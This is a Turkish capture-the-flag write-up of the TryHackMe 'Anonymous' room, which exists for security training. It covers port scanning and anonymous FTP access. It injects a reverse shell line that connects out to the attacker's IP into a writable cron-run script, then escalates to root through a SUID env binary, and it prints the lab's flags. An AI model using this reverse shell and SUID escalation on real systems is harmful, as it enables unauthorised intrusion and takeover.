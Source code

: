 ```yaml
---
title: Anonymous
date: 2024-03-29 16:00:12 
categories: [TryHackMe]
tags: [Medium,Linux,Permissions]  
image: https://images.squarespace-cdn.com/content/v1/5a459ea9692ebe7dcf9ca9ff/1572652826814-DBFUXPDNNQNXWGQ6MLG8/Screen+Shot+2019-11-02+at+10.59.45+am.png
---
```


## Giriş

Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/anonymous">Anonymous</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

---

nmap çalıştıralım.

```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.20.162
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-12 01:24 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 01:24
Scanning 10.10.20.162 [4 ports]
Completed Ping Scan at 01:24, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:24
Completed Parallel DNS resolution of 1 host. at 01:24, 0.00s elapsed
Initiating SYN Stealth Scan at 01:24
Scanning 10.10.20.162 (10.10.20.162) [1000 ports]
Discovered open port 21/tcp on 10.10.20.162
Discovered open port 445/tcp on 10.10.20.162
Discovered open port 22/tcp on 10.10.20.162
Discovered open port 139/tcp on 10.10.20.162
Completed SYN Stealth Scan at 01:24, 1.91s elapsed (1000 total ports)
Initiating Service scan at 01:24
Scanning 4 services on 10.10.20.162 (10.10.20.162)
Completed Service scan at 01:24, 11.28s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.20.162.
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Nmap scan report for 10.10.20.162 (10.10.20.162)
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds
           Raw packets sent: 1005 (44.196KB) | Rcvd: 1002 (40.096KB)
```


Makineyi numaralandırın. Kaç port açık?
> 4

21 numaralı bağlantı noktasında hangi hizmet çalışıyor?
> ftp

139 ve 445 numaralı bağlantı noktalarında hangi hizmet çalışıyor?
> smb

ftp servisine anonymous olarak girmeyi deniyorum.


```
┌──(root㉿r3tr0)-[~]
└─# ftp 10.10.20.162
Connected to 10.10.20.162.
220 NamelessOne's FTP Server!
Name (10.10.20.162:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||8298|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||45177|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1118 Nov 12 06:29 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> get clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||30118|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |****************************************************************|   314        2.62 MiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (3.35 KiB/s)
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
229 Entering Extended Passive Mode (|||37011|)
150 Opening BINARY mode data connection for removed_files.log (1118 bytes).
100% |****************************************************************|  1118        6.42 MiB/s    00:00 ETA
226 Transfer complete.
1118 bytes received in 00:00 (11.97 KiB/s)
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
229 Entering Extended Passive Mode (|||48492|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |****************************************************************|    68      205.59 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.72 KiB/s)
ftp> exit
221 Goodbye.
```

İndirdiğim dosyaları inceliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a1.png?raw=true)

clean.sh dosyasının içerisine reverse shell kodu ekliyorum ve put komutuyla ftp servisine gönderiyorum.

```bash
sh -i >& /dev/tcp/10.14.61.127/1234 0>&1
```

netcat çalıştırmayı unutmayalım.

````bash
nc -nvlp 1234
````

Kısa bir süre bekledikten sonra makineye erişim sağlıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a2.png?raw=true)

Shellimizi stabil hale getirelim:

````python
python3 -c 'import pty; pty.spawn("/bin/bash")'
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a3.png?raw=true)

user flag:
>90d6f992585815ff991e68748c414740

Yetkimizi yükseltelim ve root bayrağına ulaşalım.


`find / -perm -04000 -type f 2>/dev/null` komutu ile SUID dosyalarını inceliyorum.


```
namelessone@anonymous:~$ find / -perm -04000 -type f 2>/dev/null
find / -perm -04000 -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

Buradaki /usr/bin/env dikkatimi çekiyor ve gtfobins sitesine gidip yetki yükseltip yükseltemeyeceğime bakıyorum.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a4.png?raw=true)


`/usr/bin/env /bin/sh -p` komutu ile yetkimizi yükseltelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a5.png?raw=true)

root flag:
>4d930091c31a622a7ed10f27999af363

---

![fsoc](/images/fsoc.gif)
